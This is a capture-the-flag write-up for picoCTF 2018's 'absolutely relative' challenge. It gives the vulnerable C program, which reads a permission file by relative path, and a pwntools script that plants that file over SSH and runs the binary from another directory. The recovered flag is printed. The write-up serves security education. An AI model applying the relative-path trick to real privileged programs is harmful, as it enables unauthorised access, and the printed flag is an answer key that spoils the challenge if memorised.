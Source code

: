# absolutely relative
General Skills, 250 points

## Description:
> In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this program?

```c
#include <stdio.h>
#include <string.h>

#define yes_len 3
const char *yes = "yes";

int main()
{
    char flag[99];
    char permission[10];
    int i;
    FILE * file;


    file = fopen("/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6/flag.txt" , "r");
    if (file) {
    	while (fscanf(file, "%s", flag)!=EOF)
    	fclose(file);
    }   
	
    file = fopen( "./permission.txt" , "r");
    if (file) {
    	for (i = 0; i < 5; i++){
            fscanf(file, "%s", permission);
        }
        permission[5] = '\0';
        fclose(file);
    }
    
    if (!strncmp(permission, yes, yes_len)) {
        printf("You have the write permissions.\n%s\n", flag);
    } else {
        printf("You do not have sufficient permissions to view the flag.\n");
    }
    
    return 0;
}

```

## Solution:

If we try to run the program from the directory it's located in, we find out that we don't have permissions:

```console
user@pico-2018-shell-3:/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6$ ./absolutely-relative
You do not have sufficient permissions to view the flag.
```

Luckily, the program tries to open the `permissions.txt` file using a relative path.
```c
file = fopen( "./permission.txt" , "r");
```

This allows us to create such a file in a directory we have permissions for and call the executable using an absolute path.

```python
from pwn import *
import argparse
import os

EXECUTABLE = "absolutely-relative"
REMOTE_PATH = "/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6/"
SSH_SERVER = "2018shell3.picoctf.com"
PERMISSION_FILE_NAME = "permission.txt"
PERMISSION_FILE_CONTENT = "yes"

parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh_user", help="Connect via SSH with the given username", required = True)
args = parser.parse_args()

s = ssh(host = SSH_SERVER, user = args.ssh_user)
s.write(PERMISSION_FILE_NAME, PERMISSION_FILE_CONTENT)
p = s.process(argv = [REMOTE_PATH + EXECUTABLE], cwd = s.cwd)
print p.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/absolutely_relative# python exploit.py --ssh_user=$pico_ssh_user
[+] Connecting to 2018shell3.picoctf.com on port 22: Done
[*] user@2018shell3.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6/absolutely-relative' on 2018shell3.picoctf.com: pid 394901
[+] Receiving all data: Done (70B)
[*] Stopped remote process 'absolutely-relative' on 2018shell3.picoctf.com (pid 394901)
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_befc0ce1}
```

The flag: picoCTF{3v3r1ng_1$_r3l3t1v3_befc0ce1}